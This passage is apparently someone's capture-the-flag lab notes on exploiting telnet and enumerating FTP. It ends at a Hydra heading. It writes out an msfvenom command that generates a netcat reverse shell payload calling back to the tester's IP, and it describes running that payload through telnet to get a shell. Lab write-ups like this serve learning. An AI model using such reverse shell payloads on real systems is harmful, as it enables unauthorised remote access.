 ![[Images/image39.png]]

We're going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax:
`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

`msfvenom -p cmd/unix/reverse_netcat lhost=10.18.0.154 lport=4444 R`

![[Images/image25.png]]

sending that to the telnet by .RUN
![[Images/image28.png]]

wohoo, got my first reverse shell
![[Images/image55.png]]

# FTP

A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.
The FTP server may support either Active or Passive connections, or both. 
- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 


# Enumerating FTP

![[Images/image5.png]]

-sS only found the ftp port, not the http one! But even the simple -sT found port 80 too!

With -A aggressive I got:
![[Images/image15.png]]

![[Images/image58.png]]

![[Images/image48.png]]

# Exploiting FTP

### Hydra
